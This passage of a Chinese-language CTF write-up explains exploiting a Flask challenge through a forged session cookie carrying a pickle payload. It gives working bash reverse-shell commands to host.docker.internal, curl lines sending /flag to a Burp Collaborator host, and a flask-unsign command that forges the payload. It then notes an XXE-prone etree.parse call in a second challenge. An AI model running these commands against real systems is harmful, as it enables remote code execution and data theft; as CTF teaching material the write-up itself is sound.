 换成 `os.system()` 同理, 在 Linux 中通过这个函数执行的命令, 如果执行成功, 则返回 0, 否则返回非 0 值

虽然服务器会报错 500, 但命令其实还是执行成功的

然后, 也有一部分人问为什么没有回显? 为什么反弹 shell 失败?

首先为什么没有回显我上面已经说了, 而且就算 `os.system()` 有回显你也看不到, 因为回显的内容根本就不会在网页上输出

至于为什么反弹 shell 失败, 提示 `sh: 1: Syntax error: Bad fd number.`, 很多人用的都是这个命令

```bash
bash -i >& /dev/tcp/host.docker.internal/4444 0>&1
```

这个命令存在一些注意点, 首先得理解 bash 反弹 shell 的本质

[https://www.k0rz3n.com/2018/08/05/Linux反弹shell（一）文件描述符与重定向/](https://www.k0rz3n.com/2018/08/05/Linux%E5%8F%8D%E5%BC%B9shell%EF%BC%88%E4%B8%80%EF%BC%89%E6%96%87%E4%BB%B6%E6%8F%8F%E8%BF%B0%E7%AC%A6%E4%B8%8E%E9%87%8D%E5%AE%9A%E5%90%91/)

[https://www.k0rz3n.com/2018/08/05/Linux反弹shell（二）反弹shell的本质/](https://www.k0rz3n.com/2018/08/05/Linux%20%E5%8F%8D%E5%BC%B9shell%20%EF%BC%88%E4%BA%8C%EF%BC%89%E5%8F%8D%E5%BC%B9shell%E7%9A%84%E6%9C%AC%E8%B4%A8/)

然后你得知道上面这个反弹 shell 的语法其实是 bash 自身的特性, 而其它 shell 例如 sh, zsh 并不支持这个功能

对于题目的环境而言, 当你执行这条命令的时候, 它实际上是在 sh 的 context 中执行的, `>&` 以及 `/dev/tcp/IP/Port` 会被 sh 解析, 而不是 bash, 因此会报错

解决方法也很简单, 将上面的命令使用 `bash -c ""` 包裹起来, 即

```bash
bash -c "bash -i >& /dev/tcp/host.docker.internal/4444 0>&1"
```

让 `>&` 以及 `/dev/tcp/IP/Port` 都被 bash 解析, 就能反弹成功了

而且题目有 python 环境, 用 `python -c "xxx"` 反弹 shell 也行

更何况这题也不是非要反弹 shell, 还有很多其它方法也可以外带回显, 例如 dnslog / Burp Collaborator

```bash
curl i2l42u09eonlu596rrno58j5xw3nrff4.oastify.com -T /flag
curl i2l42u09eonlu596rrno58j5xw3nrff4.oastify.com -X POST -d "`cat /flag`"
```

最后构造 payload, 注意 note id 要对上

```bash
flask-unsign --sign --cookie "{'notes': {'evil': b'''cos\nsystem\n(S'bash -c \"bash -i >& /dev/tcp/host.docker.internal/4444 0>&1\"'\ntR.'''}}" --secret 6061 --no-literal-eval
```

![image-20230929191138796](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202311021207506.png)

### rss_parser

etree.parse 的过程存在 XXE 漏洞

```python
etree.parse(BytesIO(content), etree.XMLParser(resolve_entities=True))
```

